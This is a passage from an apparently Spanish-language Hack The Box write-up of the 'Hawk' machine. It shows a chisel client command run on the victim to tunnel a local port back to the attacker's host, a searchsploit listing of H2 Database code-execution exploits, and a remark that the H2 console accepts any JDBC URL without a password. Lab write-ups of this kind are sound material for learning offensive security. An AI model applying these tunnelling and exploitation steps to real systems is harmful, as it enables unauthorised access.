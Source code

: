 - Ejecutamos esto en la máquina victima.

```bash
daniel@hawk:/tmp$ ./chisel_1.9.1_linux_amd64 client http://10.10.14.63:8000 R:8082:127.0.0.1:8082
```

- Vemos esto.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/hawk/9.png">
</p>

- Si buscamos vulnerabilidades vemos Remote Code Execution.

```bash
❯ searchsploit H2 database

-------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                    |  Path
-------------------------------------------------------------------------------------------------- ---------------------------------
H2 Database - 'Alias' Arbitrary Code Execution                                                    | java/local/44422.py
H2 Database 1.4.196 - Remote Code Execution                                                       | java/webapps/45506.py
H2 Database 1.4.197 - Information Disclosure                                                      | linux/webapps/45105.py
H2 Database 1.4.199 - JNI Code Execution                                                          | java/local/49384.txt
Oracle Database 10 g - XML DB xdb.xdb_pitrig_pkg Package PITRIG_TRUNCATE Function Overflow        | multiple/remote/31010.sql
-------------------------------------------------------------------------------------------------- ---------------------------------
```

- Si podemos cualquier nombre en `JDBC` Url como /testing y nos conectamos sin contraseña funciona.
